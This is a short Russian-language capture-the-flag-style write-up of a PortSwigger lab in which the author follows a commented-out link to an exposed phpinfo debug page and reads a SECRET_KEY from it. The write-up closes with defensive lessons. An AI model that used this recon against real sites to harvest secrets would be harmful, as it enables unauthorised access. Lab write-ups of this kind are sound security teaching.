

лаба https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page

задание - где-то висят данные , нужно найти SECRET_KEY

-------

на главной странице есть коммент

```html
                           <a class="button" href="/product?productId=20">View details</a>
                        </div>
                    </section>
                    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
                </div>
            </section>
            <div class="footer-wrapper">
```


---------
пробую перейти по комменту

```http
GET /cgi-bin/phpinfo.php HTTP/2
```

и вуаля -  тут вообще каждая пылинка бека и всей архитектуры!



-----------

и вот тут есть 
```html
&quot;Not:A-Brand&quot;;v=&quot;99&quot; </td></tr>
<tr><td class="e">SECRET_KEY </td><td class="v">lim337cqlmwqersxose6od55sltntw89 </td></tr>
<tr>
```

ключ lim337cqlmwqersxose6od55sltntw89

лаба решена!!

---

 вывод -
 1 - не оставлять в комментах пути и файлы
 2 - не пускать без проверки в системные файлы
 3 - не хранить вообще сист файлы в опен сети


-------
